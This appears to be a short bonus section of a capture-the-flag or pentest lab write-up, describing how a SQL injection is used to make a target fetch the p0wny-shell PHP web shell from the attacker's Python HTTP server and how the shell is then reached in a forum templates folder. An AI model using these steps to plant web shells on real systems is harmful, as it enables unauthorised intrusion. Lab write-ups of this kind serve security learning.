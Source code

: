 # bonus - p0wny-shell

We continue from the point in Writeup 1 where the SQL injection is performed. We download a single-file PHP shell ([p0wny-shell](https://github.com/flozz/p0wny-shell)) and start a Python server on our pentesting VM:
``` shell
python3 -m http.server 8080
```

Next, we download the `.php` file using the SQL command injection:
``` shell
wget http://IP:8080/p0wny.php
```

Then we just access the shell in the `/forum/templates_c` subdirectory. From there, we proceed with the standard enumeration as outlined in Writeup 1—home, lookatme, password.
